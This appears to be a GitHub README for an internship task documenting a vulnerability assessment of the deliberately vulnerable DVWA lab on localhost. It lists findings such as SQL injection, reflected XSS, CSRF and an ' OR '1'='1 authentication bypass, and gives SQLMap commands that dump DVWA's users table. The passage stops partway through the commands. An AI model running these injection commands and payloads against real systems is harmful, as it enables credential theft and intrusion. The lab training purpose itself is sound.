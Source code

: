 # 🔐 Web Application Security Testing (DVWA)

This project documents a hands-on vulnerability assessment of the **Damn Vulnerable Web Application (DVWA)** using industry-standard tools and manual testing methods.

---

## 📌 Project Overview
- **Project**: Vulnerability Assessment on DVWA  
- **Tools Used**: SQLMap, Nikto, Manual (Browser) Testing  
- **Environment**: Kali Linux 2025  
- **Prepared by**: RAWLINGS ODIERO  
- **Date**: August 2025  
- **Task**: FutureInterns – Task 1  

---

## 🧪 Vulnerabilities Identified
1. **SQL Injection** (manual + automated with SQLMap)
2. **Cross-Site Scripting (XSS)** – Reflected XSS + Cookie Disclosure
3. **Cross-Site Request Forgery (CSRF)** – Manual .html form
4. **Authentication Bypass** – `' OR '1'='1`
5. **Directory Listing & Server Misconfigurations** (Nikto)
6. **Apache Server Info Disclosure & PHP Shells** – via Nikto

---

## 🧰 Tools & Commands

### 🔸 SQLMap Automation
```bash
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" --batch --dbs

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa --tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa -T users --dump
